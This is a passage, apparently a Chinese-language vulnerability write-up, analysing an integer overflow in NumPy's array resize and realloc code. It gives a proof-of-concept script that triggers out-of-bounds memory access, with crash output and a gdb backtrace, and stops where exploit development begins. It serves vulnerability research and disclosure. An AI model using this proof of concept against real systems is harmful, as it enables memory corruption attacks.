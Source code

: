 ```
        sd = PyArray_DESCR(self)-&gt;elsize;
    }
    else {
        sd = newsize*PyArray_DESCR(self)-&gt;elsize;
    }
    /* Reallocate space if needed */
    new_data = realloc(PyArray_DATA(self), sd);
    if (new_data == NULL) {
        PyErr_SetString(PyExc_MemoryError,
                "cannot allocate memory for array”);
        return NULL;
    }
    ((PyArrayObject_fields *)self)-&gt;data = new_data;
```

我们可以在代码段中找到漏洞。 您可以在for循环（第13行）中看到每个维度相乘以产生新的大小。 稍后（第25行），将新大小和元素大小的乘积作为大小传递给保存数组的realloc内存。 在realloc之前有一些关于新大小的验证，但是它不会检查整数溢出，这意味着非常大的维度可能导致分配的大小不足的数组。最终，这给攻击者一个强大的攻击途径：通过从具有overflown大小的数组进行索引来读取或写入任意内存的能力。

我们写一个Poc来验证漏洞：



```
$ cat poc.py
import numpy as np
arr = np.array('A'*0x100)
arr.resize(0x1000, 0x100000000000001)
print "bytes allocated for entire array:    " + hex(arr.nbytes) 
print "max # of elemenets for inner array:  " + hex(arr[0].size)
print "size of each element in inner array: " + hex(arr[0].itemsize) 
arr[0][10000000000]
$ python poc.py
bytes allocated for entire array:    0x100000
max # of elemenets for inner array:  0x100000000000001
size of each element in inner array: 0x100
[1]    2517 segmentation fault (core dumped)  python poc.py
$ gdb `which python` core
...
Program terminated with signal SIGSEGV, Segmentation fault.
(gdb) bt
#0 0x00007f20a5b044f0 in PyArray_Scalar (data=0x8174ae95f010, descr=0x7f20a2fb5870, 
 base=&lt;numpy.ndarray at remote 0x7f20a7870a80&gt;) at numpy/core/src/multiarray/scalarapi.c:651
#1 0x00007f20a5add45c in array_subscript (self=0x7f20a7870a80, op=&lt;optimized out&gt;)
 at numpy/core/src/multiarray/mapping.c:1619
#2 0x00000000004ca345 in PyEval_EvalFrameEx () at ../Python/ceval.c:1539…
(gdb) x/i $pc
=&gt; 0x7f20a5b044f0 &lt;PyArray_Scalar+480&gt;: cmpb $0x0,(%rcx)
(gdb) x/g $rcx
0x8174ae95f10f: Cannot access memory at address 0x8174ae95f10f
CPython运行时的quirks
```

在编写漏洞的利用脚本之前。想讨论一些CPython运行时可以轻松利用漏洞的方法，同时也讨论了如何使漏洞利用开发人员受挫。 如果您想直接进入漏洞利用，请随意跳过本节。
